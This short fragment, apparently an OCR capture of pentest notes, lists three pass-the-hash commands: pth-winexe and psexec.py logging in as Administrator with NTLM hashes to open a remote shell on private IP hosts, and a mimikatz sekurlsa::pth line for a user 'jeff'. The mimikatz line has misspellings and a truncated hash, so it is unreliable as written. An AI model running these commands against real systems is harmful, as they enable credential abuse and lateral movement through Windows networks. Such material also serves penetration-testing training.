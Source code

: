 ```bash
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

```bash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e Administrator@10.0.0.4
```

```powershell
mimikatz.exe "priviledge::debug" "sekurlsa::pth /user:jeff /domain:doamin /ntlm:d4ad8b9f8ccb87f6d02d7388157ae" exit
```
